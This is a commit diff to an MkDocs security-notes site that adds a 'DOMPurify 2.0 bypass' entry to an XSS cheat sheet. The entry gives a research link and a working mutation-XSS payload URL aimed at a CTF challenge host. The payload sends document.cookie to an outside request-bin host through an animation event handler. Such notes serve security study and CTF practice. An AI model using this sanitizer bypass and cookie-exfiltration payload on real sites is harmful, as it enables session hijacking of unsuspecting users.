

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/xss.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Add example to exploit DOMPurify and Chrome XSS

````diff
--- a/docs/xss.md
+++ b/docs/xss.md
@@ -3,3 +3,10 @@ XSS
 
 ## Cheat sheet
 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
+
+## DOMPurify 2.0 bypass
+https://research.securitum.com/dompurify-bypass-using-mxss/
+
+```
+http://qual-challs.rtfm.re:8080/?layout=<svg></p><style><a%20id="</style><style>%40keyframes%20slidein%20%7B%7D<%2Fstyle><a%20style%3D%27animation-duration%3A1s%3Banimation-name%3Aslidein%3Banimation-iteration-count%3A2%27%20onanimationiteration%3Ddocument.location=%27https:%2F%2Fpostb.in%2F1570471277352-2268189566675%2F%27+document.cookie><%2Fa>%20">
+```
````
